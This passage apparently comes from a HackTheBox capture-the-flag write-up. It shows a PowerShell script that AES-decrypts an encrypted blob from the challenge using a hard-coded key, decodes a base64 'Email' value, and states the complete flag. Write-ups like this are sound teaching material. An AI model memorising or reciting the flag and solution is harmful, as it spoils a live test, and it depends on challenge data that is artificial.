    $decryptedData = $decryptor.TransformFinalBlock($cipherText, 0, $cipherText.Length)
    [System.Text.Encoding]::UTF8.GetString($decryptedData)
}

$encrypted = "bEG+rGcRyYKeqlzXb0QVVRvFp5E9vmlSSG3pvDTAGoba05Uxvepwv++0uWe1Mn4LiIInZiNC/ES1tS7Smzmbc99Vcd9h51KgA5Rs1t8T55Er5ic4FloBzQ7tpinw99kC380WRaWcq1Cc8iQ6lZBP/yqJuLsfLTpSY3yIeSwq8Z9tusv5uWvd9E9V0Hh2Bwk5LDMYnywZw64hsH8yuE/u/lMvP4gb+OsHHBPcWXqdb4DliwhWwblDhJB4022UC2eEMI0fcHe1xBzBSNyY8xqpoyaAaRHiTxTZaLkrfhDUgm+c0zOEN8byhOifZhCJqS7tfoTHUL4Vh+1AeBTTUTprtdbmq3YUhX6ADTrEBi5gXQbSI5r1wz3r37A71Z4pHHnAoJTO0urqIChpBihFWfYsdoMmO77vZmdNPDo1Ug2jynZzQ/NkrcoNArBNIfboiBnbmCvFc1xwHFGL4JPdje8s3cM2KP2EDL3799VqJw3lWoFX0oBgkFi+DRKfom20XdECpIzW9idJ0eurxLxeGS4JI3n3jl4fIVDzwvdYr+h6uiBUReApqRe1BasR8enV4aNo+IvsdnhzRih+rpqdtCTWTjlzUXE0YSTknxiRiBfYttRulO6zx4SvJNpZ1qOkS1UW20/2xUO3yy76Wh9JPDCV7OMvIhEHDFh/F/jvR2yt9RTFId+zRt12Bfyjbi8ret7QN07dlpIcppKKI8yNzqB4FA==";

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k=";

$decrypted = Decrypt-String -key $AES_KEY -encryptedData $encrypted;

Write-Host $decrypted;
```



The value of the `Email` here is a base64 string, `YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9`, which is the 2nd part of the flag: `b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}`

Flag: `HTB{fr33_N17r0G3n_3xp053d!_b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}`
